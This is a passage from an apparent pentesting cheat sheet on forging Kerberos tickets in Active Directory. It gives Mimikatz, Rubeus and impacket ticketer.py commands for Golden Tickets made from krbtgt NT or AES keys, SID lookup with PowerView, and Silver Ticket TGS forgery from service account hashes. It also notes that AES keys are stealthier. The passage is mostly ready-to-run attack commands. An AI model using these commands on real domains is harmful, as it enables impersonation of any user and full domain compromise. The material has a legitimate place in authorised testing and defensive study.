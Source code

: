 ### Mimikatz
```powershell
# with an NT hash
kerberos::golden /domain:$DOMAIN /sid:$DomainSID /rc4:$krbtgt_NThash /user:randomuser /ptt

# with an AES 128 key
kerberos::golden /domain:$DOMAIN /sid:$DomainSID /aes128:$krbtgt_aes128_key /user:randomuser /ptt

# with an AES 256 key
kerberos::golden /domain:$DOMAIN /sid:$DomainSID /aes256:$krbtgt_aes256_key /user:randomuser /ptt
```

### Rubeus
```
.\Rubeus.exe ptt /ticket:ticket.kirbi
```

### Remote
```
PS > import-module .\PowerView.ps1
PS > Get-DomainSID
```

```bash
# Create the golden ticket (with an RC4 key, i.e. NT hash)
$ ticketer.py -nthash $krbtgtNThash -domain-sid $domainSID -domain $DOMAIN randomuser

# Create the golden ticket (with an AES 128/256bits key)
$ ticketer.py -aesKey $krbtgtAESkey -domain-sid $domainSID -domain $DOMAIN randomuser

# Set the ticket for impacket use
$ export KRB5CCNAME=<TGS_ccache_file>
```

* * *

## SilverTicket
- https://www.thehacker.recipes/ad/movement/kerberos/forged-tickets/silver
- https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/silver-ticket

The Silver Ticket attack involves the exploitation of service tickets in Active Directory (AD) environments. This method relies on acquiring the NTLM hash of a service account, such as a computer account, to forge a Ticket Granting Service (TGS) ticket. With this forged ticket, an attacker can access specific services on the network, impersonating any user, typically aiming for administrative privileges. It's emphasized that using AES keys for forging tickets is more secure and less detectable.

### Generate the RC4 hash from password
```
> mimikatz.exe
> kerberos::hash /password:MyPassword
```

### Mimikatz
```powershell
# To generate the TGS with NTLM
> kerberos::golden /domain:<domain_name> /sid:<domain_sid> /rc4:<ntlm_hash> /user:<user_name> /service:<service_name> /target:<service_machine_hostname>

# To generate the TGS with AES 128 key
> kerberos::golden /domain:<domain_name> /sid:<domain_sid> /aes128:<krbtgt_aes128_key> /user:<user_name> /service:<service_name> /target:<service_machine_hostname>

# To generate the TGS with AES 256 key (more secure encryption, probably more stealth due is the used by default by Microsoft)
```